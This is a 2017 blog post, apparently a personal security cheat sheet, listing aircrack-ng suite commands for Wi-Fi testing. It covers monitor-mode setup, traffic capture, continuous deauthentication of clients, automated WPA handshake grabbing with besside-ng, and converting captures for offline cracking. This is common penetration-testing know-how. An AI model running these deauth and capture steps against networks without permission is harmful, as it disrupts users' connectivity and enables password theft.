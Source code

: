 +++
author = "Dan Salmon"
date = 2017-10-10T16:38:19Z
description = ""
draft = false
tags = ["security"]
slug = "wifi-security-testing-cheatsheet"
title = "WiFi Security Testing Cheatsheet"
type = "post"

+++

# Prepare Wireless Card

* **View Network Cards:** 
    *   `iwconfig`
* **Kill Wireless Processes:**
    *   `airmon-ng check kill`

---------
# View Networks

```
airodump-ng wlan0
```

---------

# Capture traffic

```
airodump-ng --bssid 04:A1:51:9F:98:BB --wps --write ISSO-WPA2 --channel 6 wlan0
```

where:

<pre>
--bssid   - MAC of router
--wps     - Output WPS information, may be able to try Reaver
--write   - File name to write to. No extension
--channel - Statically set a channel. Don't need to unless de-authing
wlan0     - Wireless interface	
</pre>

----------------------------

# Deauth - Do while capturing

```
aireplay-ng --deauth 0 -a 04:A1:51:9F:11:11 -c E0:AC:CB:DA:1B:1B wlan0
```

where:
<pre>
0           - Continuously send deauth packets
-a          - BSSID of router (from airodump)
-c          - STATION of client (From airodump. Not necessary, but preferred)
wlan0       - Interface
--deauth     - Which aireplay attack to launch
[0|64 ACKs] - How many acknowledgements from AP|client. More=better especially for AP count
</pre>

------------

# Automating de-auth attack/handshake grab

```
besside-ng -W -c 6 -b 00:00:11:22:33:44 wlan0
```


where:

<pre>
-W    - WPA networks only
-c    - channel lock
-b    - BSSID of AP
wlan0 - interface
</pre>

- Sort of experimental, will probably get errors
- Usually grabs handshake in under 1 minutes, saves to wpa.cap and wep.cap
- Need to see at least (Know 1 clients), otherwise nothing to deauth

-------

# Seperate out individual caps from besside-ng output

```
pyrit -r wpa.cap -o mytargetnetwork.cap -e mytarget strip
```

where:

<pre>
-r - Input file to look at created by besside-ng
-o - Output file to create
-e - ESSID of network to filter by (alternatively, -b with BSSID of network)
</pre>

---------

# Convert .cap with handshake to .hccap

```
aircrack-ng -J network network.cap
```

* Aircrack already adds .hccap extension to file